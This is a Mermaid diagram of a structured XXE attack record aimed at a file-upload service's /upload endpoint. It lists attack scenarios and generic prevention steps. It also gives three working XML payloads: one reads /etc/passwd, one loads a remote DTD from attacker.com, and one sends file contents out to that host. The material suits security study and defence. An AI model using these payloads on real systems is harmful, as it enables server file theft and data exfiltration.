

```mermaid
graph LR
root("Object")
root --> root_attack_type
root_attack_type("attack_type: XXE")
root ==> root_attack_vector
root_attack_vector("attack_vector: XML external entity")
root ==> root_target
root_target("target")
root_target --> root_target_application
root_target_application("application: File upload service")
root_target --> root_target_xml_parser
root_target_xml_parser("xml_parser: DOM parser")
root_target --> root_target_endpoint
root_target_endpoint("endpoint: /upload")
root ==> root_payload
root_payload("payload")
root_payload --> root_payload_xml
root_payload_xml("xml: <?xml version=1.0?><!DOCTYPE foo [<!ENTITY xxe SYSTEM file:///etc/passwd>]><foo>&xxe;</foo>")
root_payload --> root_payload_blind_xxe
root_payload_blind_xxe{"blind_xxe: <?xml version=1.0?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM http://attacker.com/xxe.dtd>%xxe;]><foo>test</foo>"}
root_payload --> root_payload_dtd_file
root_payload_dtd_file{"dtd_file: <!ENTITY % file SYSTEM file:///etc/passwd><!ENTITY % eval <!ENTITY &#x25; exfil SYSTEM \http://attacker.com/?data=%file;\>>%eval;%exfil;"}
root --> root_attack_scenarios
root_attack_scenarios("attack_scenarios")
root_attack_scenarios --> root_attack_scenarios_file_disclosure
root_attack_scenarios_file_disclosure("file_disclosure: Read local files")
root_attack_scenarios --> root_attack_scenarios_ssrf
root_attack_scenarios_ssrf("ssrf: Server-Side Request Forgery")
root_attack_scenarios --> root_attack_scenarios_dos
root_attack_scenarios_dos("dos: Denial of Service")
root_attack_scenarios --> root_attack_scenarios_rce
root_attack_scenarios_rce("rce: Remote Code Execution")
root ==> root_prevention
root_prevention("prevention")
root_prevention --> root_prevention_disable_entities
root_prevention_disable_entities("disable_entities: Disable external entities")
root_prevention --> root_prevention_input_validation
root_prevention_input_validation("input_validation: Validate XML input")
root_prevention --> root_prevention_whitelist
root_prevention_whitelist("whitelist: Allow only safe entities")
root_prevention --> root_prevention_parser_config
root_prevention_parser_config("parser_config: Secure parser configuration")
```
